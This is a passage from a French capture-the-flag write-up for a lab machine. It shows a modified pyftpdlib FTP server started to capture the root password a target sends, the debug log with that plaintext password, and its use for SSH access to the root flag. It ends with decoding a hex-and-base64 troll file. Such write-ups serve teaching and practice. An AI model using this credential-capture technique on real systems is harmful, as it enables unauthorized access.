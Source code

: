 Python ne dispose pas par défaut d'un module de serveur FTP du coup je me suis retranché sur *pyftpdlib*. Je l'ai préalablement modifié, car même en mode DEBUG le mot de passe est caché via des astérisques puis je l'ai transféré via Meterpreter.  

```bash
$ python3 -m pyftpdlib -p 21 -D
[I 2019-02-03 16:12:31] >>> starting FTP server on 0.0.0.0:21, pid=1271 <<<
[I 2019-02-03 16:12:31] concurrency model: async
[I 2019-02-03 16:12:31] masquerade (NAT) address: None
[I 2019-02-03 16:12:31] passive ports: None
[D 2019-02-03 16:12:31] poller: 'pyftpdlib.ioloop.Epoll'
[D 2019-02-03 16:12:31] authorizer: 'pyftpdlib.authorizers.DummyAuthorizer'
[D 2019-02-03 16:12:31] use sendfile(2): True
[D 2019-02-03 16:12:31] handler: 'pyftpdlib.handlers.type'
[D 2019-02-03 16:12:31] max connections: 512
[D 2019-02-03 16:12:31] max connections per ip: unlimited
[D 2019-02-03 16:12:31] timeout: 300
[D 2019-02-03 16:12:31] banner: 'pyftpdlib 1.5.4 ready.'
[D 2019-02-03 16:12:31] max login attempts: 3
[I 2019-02-03 16:18:11] 10.78.10.2:56670-[] FTP session opened (connect)
[D 2019-02-03 16:18:11] 10.78.10.2:56670-[] -> 220 pyftpdlib 1.5.4 ready.
[D 2019-02-03 16:18:11] 10.78.10.2:56670-[] <- USER root
[D 2019-02-03 16:18:11] 10.78.10.2:56670-[] -> 331 Username ok, send password.
[D 2019-02-03 16:18:11] 10.78.10.2:56670-[root] <- PASS BGPtelc0rout1ng
[D 2019-02-03 16:18:14] 10.78.10.2:56670-[] -> 530 Authentication failed.
[I 2019-02-03 16:18:14] 10.78.10.2:56670-[] USER 'root' failed login.
[D 2019-02-03 16:18:14] 10.78.10.2:56670-[] <- PASV
[D 2019-02-03 16:18:14] 10.78.10.2:56670-[] -> 530 Log in with USER and PASS first.
[D 2019-02-03 16:18:14] 10.78.10.2:56670-[] <- QUIT
[D 2019-02-03 16:18:14] 10.78.10.2:56670-[] -> 221 Goodbye.
[D 2019-02-03 16:18:14] [debug] call: close() (<FTPHandler(id=139833564133584, addr='10.78.10.2:56670')>)
[I 2019-02-03 16:18:14] 10.78.10.2:56670-[] FTP session closed (disconnect).
```

Ces identifiants (*root* / *BGPtelc0rout1ng*) permettent alors l'accès via SSH à 10.120.15.10 (host *carrier*) qui contient le flag root :)  

Il y avait aussi un petit troll sur la machine avec le fichier *secretdata.txt* qui contenait des caractères hexadécimaux :  

```python
$ python3
Python 3.6.8 (default, Jan  3 2019, 03:42:36)
[GCC 8.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from binascii import unhexlify
>>> unhexlify("56484a766247786c5a43456849513d3d")
b'VHJvbGxlZCEhIQ=='
>>> from base64 import b64decode
>>> b64decode('VHJvbGxlZCEhIQ==')
b'Trolled!!!'
```

You are being redirected
------------------------

Super CTF de *snowscan* :) Merci à lui !

*Published March 17 2019 at 14:23*
